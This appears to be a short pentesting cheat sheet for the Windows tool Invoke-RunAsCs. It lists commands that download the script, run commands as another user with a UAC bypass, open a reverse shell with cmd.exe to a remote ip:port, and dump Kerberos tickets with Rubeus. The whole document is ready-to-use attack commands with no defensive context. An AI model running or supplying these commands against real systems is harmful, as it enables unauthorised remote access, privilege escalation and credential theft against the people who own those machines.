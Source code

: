 # Invoke-RunAsCs

% windows, Invoke-RunAsCs

#plateform/windows #target/remote  #cat/RECON

## Download
```powershell
wget https://raw.githubusercontent.com/antonioCoco/RunasCs/master/Invoke-RunasCs.ps1 -O Invoke-RunasCs.ps1
```


##  run as
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac -Command "cmd /c klist" 
```

## Reverse shell  
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac -Command cmd.exe -Remote <ip>:<port> 
```

## dump certificates (Rubeus)
```powershell
Invoke-RunAsCs -UserName <user> -Password '<password>' -Domain <domain_fqdn> -LogonType <logon_type|2> -BypassUac  -Command "c:\users\jubeaz\Documents\Rubeus.exe dump /nowrap"
```
